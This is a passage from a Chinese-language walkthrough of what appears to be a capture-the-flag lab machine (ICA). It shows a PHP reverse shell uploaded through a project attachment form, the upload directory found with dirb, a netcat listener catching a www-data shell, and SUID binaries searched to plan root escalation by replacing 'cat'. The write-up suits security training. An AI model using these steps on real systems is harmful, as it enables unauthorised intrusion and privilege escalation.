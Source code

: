 - 退出账户`admin@localhost.com`，登录账户`test@test.test`

- 发现新建工程可以上传文件，上传`php-reverse-shell.php`
  
  ```bash
  Projects --> Add Project --> General & Attachments
  ```

### 4. 建立反弹SHELL

- 寻找上传的文件位置。对网站目录进行枚举，发现`http://192.168.1.111/uploads/attachments/`目录，上传的附件就保存在此处。
  
  ```bash
  dirb http://192.168.1.111 -o dirb.out
  ```

- 在本地终端监听端口。
  
  ```bash
  nc -lvnp 8888
  ```

- 点击文件`php-reverse-shell.php`，本机监听处收到请求，成功建立反弹`shell`

## 阶段四：提权

- 成功进入系统，`ID`为`www-data`
  
  ```bash
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

- 搜索可执行文件，发现文件`get_access`
  
  ```bash
  find / -perm -u=s 2>/dev/null
  ```

- 执行该文件
  
  ```bash
  $ /opt/get_access
  
    ############################
    ########     ICA     #######
    ### ACCESS TO THE SYSTEM ###
    ############################
  
    Server Information:
     - Firewall:  AIwall v9.5.2
     - OS:        Debian 11 "bullseye"
     - Network:   Local Secure Network 2 (LSN2) v 2.4.1
  
  All services are disabled. Accessing to the system is allowed only within working hours.
  ```

- 尝试读取该文件的字符内容，发现`setuid`字样，及`cat`读取`root`路径下文件的语句。猜测该程序先设置了`UID`，之后调用`cat`读取文件。可以考虑通过替换`cat`提权。
  